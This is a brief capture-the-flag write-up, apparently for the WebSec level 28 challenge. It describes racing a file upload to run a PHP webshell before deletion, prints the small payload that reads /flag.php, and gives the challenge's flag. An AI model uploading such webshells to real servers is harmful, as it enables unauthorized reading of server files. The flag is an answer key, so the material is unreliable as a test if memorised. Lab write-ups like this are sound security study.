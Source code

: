 ```yaml
---
layout: default
title: level28
---
```


Here we need to upload our webshell and then read the Flag. We've got only one second before the file get deleted, is basically `RCE` combined will `TocToe`.
This will be our payload
```php
<?php
    echo htmlspecialchars(file_get_contents('/flag.php'));
?>
```
*Notice we need to use `htmlspecialchars`, without this function, it won't show us the flag!*

And then we get:
```php
<?php $flag = 'WEBSEC{Can_w3_please_h4ve_mutexes_in_PHP_naow?_Wait_there_is_a_pthread_module_for_php?!_Awwww:/}';
```

**Flag:** ***`WEBSEC{Can_w3_please_h4ve_mutexes_in_PHP_naow?_Wait_there_is_a_pthread_module_for_php?!_Awwww:/}`*** 
